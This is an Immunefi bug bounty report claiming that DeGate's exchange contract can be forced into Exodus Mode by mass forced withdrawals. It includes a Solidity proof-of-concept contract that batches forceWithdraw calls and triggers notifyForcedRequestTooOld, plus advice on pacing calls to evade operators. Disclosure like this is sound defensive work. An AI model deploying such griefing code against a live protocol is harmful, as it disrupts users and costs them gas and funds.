 # 26509 - \[SC - Insight] Exodus Mode Force

Submitted on Dec 4th 2023 at 06:24:17 UTC by @lordagnew for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26509

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:

* Force DeGate into Exodus Mode
* Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Bug Description

To Force DeGate into Exodus Mode

First, Parse Calldata of all submitBlock transactions in the DeGate smart contract.

Write a script to automate the calling of notifyForcedRequestTooOld for accounts that meet the specific criteria to find available ones to help and make it even easier to force.

Start creating accounts over time to make enough to be able to cause Exodus Mode. (I know it is a lot of accounts to make but not hard at all)

After you force Degate into Exodus Mode you can start Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Impact

This is an extremely bad impact. Would show the project in a terrible light because the entire project would shut down and would cause big problems for people and anyone who is invested in it. Anyone who is a competitor could do this to make there own project look better/safer.

## Risk Breakdown

Difficulty to Exploit: Easy just would take some time but still easy

## Proof of concept

First thing you would need to do is make enough accounts with wallets that have a very small amount of money in them because you will get the money back so no lose in revenue at all for this part. Yes, you would need to make a TON of accounts but that is why you would use a program to create these accounts which is something that already exists. Secondly, when all of these accounts are ready, you Parse Calldata of all submitBlock transactions in the DeGate smart contract and you do this so you can look for other accounts that might be able to help you with this because ANYONE can call this for any account which is a problem. Next, Write a script to automate the calling of notifyForcedRequestTooOld for accounts that meet the specific criteria to find available ones to help and make it even easier to force. I know the price of .01 eth but I can promise you that if a competitive project sees profit by taking out Degate you do not want that option available.

Here is the code for this // SPDX-License-Identifier: MIT pragma solidity >=0.6.12 <0.9.0;

interface IExchangeV3 { function forceWithdraw(address from, address token, uint32 accountID) external; function notifyForcedRequestTooOld(uint32 accountID, address token) external; }

contract ExodusModeSimulator { IExchangeV3 public exchangeV3; address public owner;

```
// 
event ForceWithdrawInitiated(address indexed sender, address indexed token, uint32 indexed accountID);
event ExodusModeTriggered(uint32 indexed accountID, address indexed token);

// Mapping to store withdrawal timestamps
mapping(uint32 => mapping(address => uint)) public withdrawalTimestamps;

// MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE is set to 15 days in seconds
uint constant MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE = 15 * 24 * 60 * 60;

constructor(address _exchangeV3Address) {
    owner = msg.sender;
    exchangeV3 = IExchangeV3(_exchangeV3Address);
}

modifier onlyOwner() {
    require(msg.sender == owner, "Only the owner can call this function");
    _;
}

function simulateForcedWithdrawals(address[] calldata tokens, uint32[] calldata accountIDs) external onlyOwner {
    require(tokens.length == accountIDs.length, "Input arrays must be the same length");
    
    for (uint i = 0; i < tokens.length; i++) {
        exchangeV3.forceWithdraw(msg.sender, tokens[i], accountIDs[i]);
        withdrawalTimestamps[accountIDs[i]][tokens[i]] = block.timestamp;
        emit ForceWithdrawInitiated(msg.sender, tokens[i], accountIDs[i]);
    }
}

function simulateMassForcedWithdrawals(address token, uint32 startAccountID, uint32 numberOfAccounts) external onlyOwner {
    for (uint32 i = 0; i < numberOfAccounts; i++) {
        uint32 accountID = startAccountID + i;
        exchangeV3.forceWithdraw(msg.sender, token, accountID);
        withdrawalTimestamps[accountID][token] = block.timestamp;
        emit ForceWithdrawInitiated(msg.sender, token, accountID);
    }
}

function triggerExodusMode(uint32 accountID, address token) external onlyOwner {
    uint timestamp = withdrawalTimestamps[accountID][token];
    require(timestamp != 0, "No withdrawal request for this account and token");
    require(block.timestamp >= timestamp + MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE, "Withdrawal request not old enough");

    exchangeV3.notifyForcedRequestTooOld(accountID, token);
    emit ExodusModeTriggered(accountID, token);
}
```

}

To help understand this and how it will work this will make it VERY easy to push accounts through and you can push them through a lot at a time or you can slowly push the accounts out so that it is not caught by the operators. Also, this contract puts the 15 days into account. This is a very bad thing and I really do recommend fixing this or at least putting something in the contract so ONLY the owner can make a call for any account and not let that be open to anyone because that would immediately fix it.

Lastly, When Exodus mode is forced every account will be able to have all there money taken out of the contract and this would cause serious Griefing for everyone involved because they would all have to repay the gas fees for putting it back into the contract and a huge loss of respect for the project.
